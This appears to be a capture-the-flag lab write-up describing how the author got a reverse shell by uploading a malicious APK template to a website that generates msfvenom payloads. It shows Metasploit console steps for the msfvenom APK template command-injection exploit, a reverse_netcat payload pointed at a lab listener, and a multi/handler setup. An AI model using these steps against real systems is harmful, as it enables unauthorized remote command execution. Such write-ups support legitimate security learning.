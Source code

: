 We do have the ability to include templates, so I began researching what I can potentially do to manipulate this ability. Some relevant articles from the research:
[Rapid7](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/)
[GitHub](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md)

Following the steps in [this Rapid7 article](https://github.com/rapid7/metasploit-framework/pull/14331), I was able to establish a reverse-shell by manipulating the upload feature on the website responsible for generating MSFVENOM payloads (in this case, for android).

### Steps to accomplish:
Generate payload
```bash
msf6 > use unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > show options

Module options (exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  msf.apk          yes       The APK file name


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.111        yes       The listen address (an interface may be specified)
   LPORT  8989             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**
...

[+] msf.apk stored at /root/.msf4/local/msf.apk
```

Initiate listener (multi/handler)
```bash
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.111     yes       The listen address (an interface may be specified)
   LPORT  8989             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

```